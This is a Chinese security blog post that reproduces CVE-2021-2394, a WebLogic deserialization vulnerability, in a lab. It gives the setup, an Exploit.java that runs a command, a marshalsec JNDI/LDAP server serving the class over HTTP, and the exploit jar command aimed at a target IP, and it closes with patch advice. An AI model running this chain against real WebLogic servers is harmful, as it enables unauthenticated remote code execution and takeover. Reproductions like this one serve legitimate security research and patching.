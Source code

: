 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/yTSqoE-p63HR3WhosnbBRw)

**上方蓝色字体关注我们，一起学安全！**

**作者：Xz****@Timeline Sec  
**

**本文字数：815**

**阅读时长：2～3min**

**声明：仅供学习参考使用，请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

WebLogic 是用于开发、集成、部署和管理大型分布式 Web 应用、网络应用和数据库应用的 Java 应用服务器。

**0x02 漏洞概述**  

  

**编号：CVE-2021-2394**  
Oracle 官方发布了 2021 年 7 月份安全更新通告，通告中披露了 WebLogic 组件存在高危漏洞，攻击者可以在未授权的情况下通过 IIOP、T3 协议对存在漏洞的 WebLogic Server 组件进行攻击。成功利用该漏洞的攻击者可以接管 WebLogic Server。  

这是一个二次反序列化漏洞，是 CVE-2020-14756 和 CVE-2020-14825 的调用链相结合组成一条新的调用链来绕过 weblogic 黑名单列表。

**0x03 影响版本**  

  

Oracle WebLogic Server 10.3.6.0.0

Oracle WebLogic Server 12.1.3.0.0

Oracle WebLogic Server 12.2.1.3.0

Oracle WebLogic Server 12.2.1.4.0

Oracle WebLogic Server 14.1.1.0.0

**0x04 环境搭建**  

  

系统环境：window10 系统

weblogic 版本：12.2.1.3, 直接官网下载就可以  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaN9OUPxh6EWuVnATGx2qib7k0kz94lY7z2swyxKd1yeicgxDLfWknge4IhxVy9n88mDia01d88DmZ7A/640?wx_fmt=png)

weblogic 安装过程省略，很简单

安装好之后，在此目录启动就可以

```
C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\startWebLogic.cmd
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaN9OUPxh6EWuVnATGx2qib7hIOibcViavtkw2444F6E8R3YgAEaqbvmW4YLBpZFLV2VZ0FhMS7OVhug/640?wx_fmt=png)

weblogic 启动成功的截图

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaN9OUPxh6EWuVnATGx2qib7ZWiafXtUdsoyJ86oHvaamJoU6vBhSYsapM1piaSzXYWKCyDPo92Snia9A/640?wx_fmt=png)  

**0x05 漏洞复现**  

  

1、下载 marshalsec 利用 marshalsec 开启 JNDI 服务

```
https://github.com/mbechler/marshalsec # 需要自己编译
mvn clean package –DskipTests

https://github.com/RandomRobbieBF/marshalsec-jar # 可以直接使用
```

2、创建 Exploit.java，通过 javac 编译得到 Exploit.class     

```
public class Exploit {

    static {
        System.err.println("Pwned");
        try {
            String cmds = "calc";
            Runtime.getRuntime().exec(cmds);
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
```

3、在同目录下使用 python 开启一个 http 服务，并使用 marshalsec 开启 JNDI 服务

```
python -m http.server 8000
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 8087
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaN9OUPxh6EWuVnATGx2qib7KMQCrfC3iaPrfzhicQDkzaauM9TO8wT7aqOwjM7vRScdoVwDVK3VybBQ/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaN9OUPxh6EWuVnATGx2qib7tXG3Re9XjElCePiaoGyeicicDbxIAuibxoicQOhGafVHEJuLRrianKIjUXPQ/640?wx_fmt=png)  

4、利用我们组 lz2y 大佬写的 exp 进行复现

```
https://github.com/lz2y/CVE-2021-2394/releases/tag/2.0
```

```
java -jar CVE_2021_2394.jar 192.168.31.3 7001 ldap://192.168.3.35:8087/Exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaN9OUPxh6EWuVnATGx2qib74qR2As3NqqtNTHKBSSS3uWBELR4ewfePmDRLcm00B1Tq79ZfWoSxxA/640?wx_fmt=png)

  
目标机成功弹框

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaN9OUPxh6EWuVnATGx2qib75nkv2Se4G7HC2fBoicLBhAkcnkCCH9HaxB9nPLy45mwhwWzIXQDIsJA/640?wx_fmt=png)

**0x06 修复方式**  

  

当前官方已发布受影响版本的对应补丁，建议受影响的用户及时更新官方的安全补丁。链接如下：

https://www.oracle.com/security-alerts/cpuapr2021.html

```
参考链接：
```

https://github.com/lz2y/CVE-2021-2394/  

https://mp.weixin.qq.com/s/wFHhWvnCLm1xcWZIbv6O3A

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjfVYbYbk6BjOPiaXs1pyWjPuTA8oia9G1iaHtnmJwXZhFwbsnckxIqhPztSW0ejymQ6M5fmpzqPz4rw/640?wx_fmt=png)

**往期回顾**  

  

[![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVsiax5APibMPibicjtyibHBAP8Lpdav4NW1Ah7Rw0ElTbAwd1ZzUwGJFRXwzkia917dfMBUWy28icZVibliaJGA/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247487675&idx=1&sn=736d0216bca8525981a4ff66dc6e4887&chksm=9039364ba74ebf5d1d1a594f21967c78c6530641eff23efcee4ce922ce85a847e9acae3af7e1&scene=21#wechat_redirect)  

[![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVsh11QJRI6lYw70Xlnic7X7cr1OBdofQYcuBrlODmRGBVteRg33zjem22aZoJcicEf9cqotOVllZfibYA/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247486827&idx=1&sn=cd5e393a098627257dffedf500eb2509&chksm=90392b9ba74ea28d4fa4473c175d3842723e1f3d3d1786dbed9fa0fbb6f4394138933caf541c&scene=21#wechat_redirect)  

[![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshwUL3uf6a5yba2FZGmGc5kLWibCXxzZ6YQcQiaUdTziaab8WPrCmG8Ibr8gPiaoHGbqichYPVicUXv6c7Q/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247486336&idx=1&sn=2a054ededbc855622fe2ac6c8906aae0&chksm=90392d70a74ea46635bef3cd4fc414cef87d16a1875ccb690f6eadb4304337e0d2b4772a2659&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章**

Timeline Sec 团队  

安全路上，与你并肩前行